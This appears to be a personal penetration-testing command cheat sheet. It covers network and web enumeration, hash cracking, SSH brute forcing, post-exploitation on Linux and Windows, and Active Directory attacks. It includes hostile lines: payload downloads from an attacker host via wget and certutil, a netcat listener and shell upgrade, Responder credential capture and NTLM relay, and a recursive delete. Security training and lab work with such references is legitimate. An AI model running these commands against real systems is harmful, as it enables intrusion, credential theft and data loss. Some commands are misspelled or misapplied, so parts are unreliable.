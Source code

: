 ## General

rm -rf /path/to/directory

## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

(directory hunting) ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -v | grep FUZZ 

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  
    if a password has already been cracked it may reside in the potfile on --show

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python2 - python -m SimpleHTTPServer

python3 - python3 -m http.server 8080

## Active Directory Attacks  

sudo responder -I tun0 -dwP | tun0 here is used when we are getting access via VPN

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv

(Relays) SMB attack  
sudo responder -I eth0 -dPv

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 






